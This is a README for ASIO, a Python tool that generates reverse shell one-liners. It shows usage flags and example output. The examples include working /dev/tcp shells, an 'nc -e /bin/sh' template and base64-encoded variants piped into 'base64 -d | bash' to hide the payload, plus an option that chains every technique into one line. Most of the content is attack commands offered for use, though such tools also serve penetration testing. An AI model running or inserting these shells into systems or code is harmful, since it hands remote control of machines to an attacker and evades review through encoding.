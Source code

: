 # ASIO
## Description
ASIO (All Shell In One) is a tool written in Python3 that generates reverse shells. It has the ability to **cast a one liner that uses all the available reverse shell teqniques**

## Usage
```
usage: asio.py [-h] -H HOST -P PORT [-A] [-B]

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Hostname or IP of the server
  -P PORT, --port PORT  Port of the server
  -A, --all             Use this argument to generate a full one liner to try all the reverse shell possible.
  -B, --base64          Encode all the reverse shells in base64 and build a one liner to execute the decoded string
```
## Examples

### Generate multiple reverse shells
Command:
```
./asio.py -H 127.0.0.1 -P 8080
```
Output:
```
 sh in dev tcp 
 sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

 exec sh in dev tcp 
 0<&196;exec 196<>/dev/tcp/127.0.0.1/8080; sh <&196 >&196 2>&196
 ```

### Generate multiple reverse shells encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B
```
Output:
```
 sh in dev tcp 
echo "IHNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84MDgwIDA+JjE=" | base64 -d | bash

exec sh in dev tcp 
echo "IDA8JjE5NjtleGVjIDE5Njw+L2Rldi90Y3AvMTI3LjAuMC4xLzgwODA7IHNoIDwmMTk2ID4mMTk2IDI+JjE5Ng==" | base64 -d | bash
```

### Generate one liner with all the available teqniques encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B -A
```
Output:
```
 All in one
echo "KCBzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjE<more base64>" | base64 -d | bash
```


## Add presonalized reverse shells
 - Edit the `personal_shells.txt` file
 - Use the following syntaxt: `Name of the Revere Shell | Reverse Shell Code`
 - Use `{HOST}` and `{PORT}` as a placeholders for address and port variables.

### Example
`sh in dev tcp | sh -i >& /dev/tcp/{HOST}/{PORT} 0>&1`

`netcat -e | nc -e /bin/sh {HOST} {PORT}`
